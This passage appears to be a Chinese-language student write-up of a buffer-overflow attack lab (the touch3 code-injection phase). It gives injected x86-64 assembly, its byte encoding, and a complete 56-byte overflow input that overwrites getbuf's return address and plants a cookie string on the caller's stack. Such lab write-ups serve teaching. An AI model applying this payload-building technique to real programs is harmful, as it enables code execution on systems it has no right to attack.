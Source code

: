 也就是说，要把`cookie`转换成对应的字符串传进去

注意第6行，`s`的位置是随机的，我们写在`getbuf`栈中的字符串很有可能被覆盖，一旦被覆盖就无法正常比较。

因此，考虑把`cookie`的字符串数据存在`test`的栈上，其它部分与上题相同，这里不再重复思路。

### 注入代码

先查找`test`栈顶指针的位置：

![img](./images/v2-a07be4da84c92ded046900c493aed9d6_720w.webp)

`0x5561dca8`，这就是字符串存放的位置，也是调用`touch3`应该传入的参数，又`touch3`代码的地址为`4018fa`。从而得到代码：

```c
movq    $0x5561dca8, %rdi
pushq   $0x4018fa
ret
```

字节级表示为：

```c
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

### 栈帧讲解

![img](./images/v2-dcd7fd081b2c60ed0443adfa044fbb27_720w.webp)

逻辑如下：

- `getbuf`执行`ret`，从栈中弹出返回地址，跳转到我们注入的代码
- 代码执行，先将存在`caller`的栈中的字符串传给参数寄存器`%rdi`，再将`touch3`的地址压入栈中
- 代码执行`ret`，从栈中弹出`touch3`指令，成功跳转

### Solution

cookie`0x59b997fa`作为字符串转换为`ASCII`为：`35 39 62 39 39 37 66 61`

注入代码段的地址与上题一样，同样为`0x5561dc78`

由于在`test`栈帧中多利用了一个字节存放cookie，所以本题要输入56个字节。注入代码的字节表示放在开头，33-40个字节放置注入代码的地址用来覆盖返回地址，最后八个字节存放cookie的`ASCII` 。于是得到如下输入：

```c
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

